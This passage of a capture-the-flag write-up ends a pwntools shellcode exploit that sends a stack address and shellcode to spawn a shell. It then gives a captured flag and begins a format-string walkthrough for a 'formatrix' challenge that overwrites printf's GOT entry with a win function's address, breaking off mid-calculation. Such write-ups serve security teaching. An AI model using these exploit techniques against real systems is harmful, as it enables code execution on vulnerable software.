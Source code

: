 ``` 
mov edx, eax
mov al, SYS_execve
int 0x80
""")

# Finally we send our payload, which consists of the stack address at offset 54,
# and the shellcode at offest 158, with anything being placed in the other positions 
p.sendline(flat({
  54: p32(stackAddress),
  158:shellcode
  }))

# We will now have shell access, using cat flag to print the flag
p.interactive()
```

formatrix
=========================== 
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNC1mb3JtYXRyaXgiLCJpcCI6IjIyMC4yNDAuODIuOTYiLCJzZXNzaW9uIjoiYjFjNjgwODAtYzZhMy00ZWUyLWJhMTYtMDhjNzU3NWExM2M1In0.uBw-t6Dfji_-MjmkQ46sL4604DYnhSf_Mq1NGS_LOkk}
 
General overview of problems faced 
------------------------------------- 
This program allows us to input a format string and it will print it. Doing AAAA %x %x %x shows that our buffer's content 41414141 is at the third 4 bytes offset. Hence, if we input AAAA %3$x this prints the start of our buffer.

Looking in binary ninja, we can see there is a win function which gives us shell access, so it is clear we want to jump to this. In the main function, after fgets is called for our input, and then sprintf to display our input, there is a call to puts. Hence, we can overwrite the address of the puts function in the GOT so that it calls the win function instead. However, what I failed to realise was that the win function calls puts itself, so it won't work correctly once puts is overwritten. So, we can see after the call to puts in main there is also a call to printf, and since the win function doesn't use printf, we are safe to overwrite it in the GOT.

In binary ninja, the address of the win function is 0x8048536. When loading the program in gdb, we can use the command 'got' to view the GOT addresses (also note there is no RELRO protection enabled). From this, we can see the address 0x8049c18 holds the address of the printf function. We can also use objdump -d challenges/./formatrix to find the addresses for GOT entries and the win function.

Hence, in our format string we want to overwrite the address 0x8049c18 to instead point to the address 0x8048536, which contains the win function. When placing the address of the win function into our payload, since the system is little endian, we input it in little endian format, putting the least significant byte first.

To create our payload, we do it a single byte at a time. 

First byte: At 16 (4 + 4 + 4 + 4), need 0x36 = 54
Hence we write 54 - 16 = 38 bytes.

Second byte: At 54, need 0x85 = 133
Hence we write 133 - 54 = 79 bytes.
